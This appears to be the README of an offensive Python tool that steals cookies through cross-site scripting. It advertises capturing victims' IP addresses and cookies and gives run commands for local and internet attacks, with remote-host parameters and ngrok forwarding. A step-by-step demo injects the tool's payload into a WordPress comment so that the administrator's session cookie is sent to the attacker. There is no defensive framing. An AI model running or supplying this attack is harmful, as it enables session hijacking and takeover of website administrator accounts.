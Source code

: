 # XSS steals cookies
* The current version v3.0 is simpler and faster
* Obtain the victim's Internet IP address
* Python version 3.6 or above
* Automatically steal cookies
* Compatible with Windows or Linux
## usage method
  * View help information

      ```#python3 XSS_Tool_V3.0.py -h```

  ![图片名称](./Demo_image/Help.png "Help")  

  * LAN attack

      ```#python3 XSS_Tool_V3.0.py -lp (Local port)```

  * Internet attack

      ```#python3 XSS_Tool_V3.0.py -t -lp (Local port) -rh (Remote host IP) -rp (Remote host port)```

## Effect demonstration 
 * We will use WordPress-6.1.1 for XSS attack simulation test
 * _If your machine has a public IP address, just listen to the local port_

# Use Extranet attack
* Enable port forwarding (Ngrok is used for demonstration)

    ![图片名称](./Demo_image/forwarding.png "Port forwarding")  


* Use Extranet attack

    ```#python3 XSS_Tool_V3.0.py -t -lp 8080 -rh ***.***.***.*** -rp 10029```

    ![图片名称](./Demo_image/Internet.png "Extranetattack")  


# Use Intranet attack [Now Test]
-----------------Hacker--------------------------
* You can use the - lp parameter to specify the port. If you do not write, the default port is 8888

```#python3 XSS_Tool_V3.0.py```

![图片名称](./Demo_image/Runing.png "Run")  

* Copy payload and inject XXS injection point

![图片名称](./Demo_image/Hacking.png "Run")  

----------------Server Admin------------------------

* Normal status of administrator

![图片名称](./Demo_image/Admin_no_hack.png "Admin_no_hack")  

* The administrator was hacked to execute malicious code when viewing comments

![图片名称](./Demo_image/Admin_hacked2.png "Admin_hacked2")  

-----------------Hacker--------------------------
* Hacker gets the administrator's cookie

![图片名称](./Demo_image/Hack_Get_Cookie.png "Hack_Get_Cookie")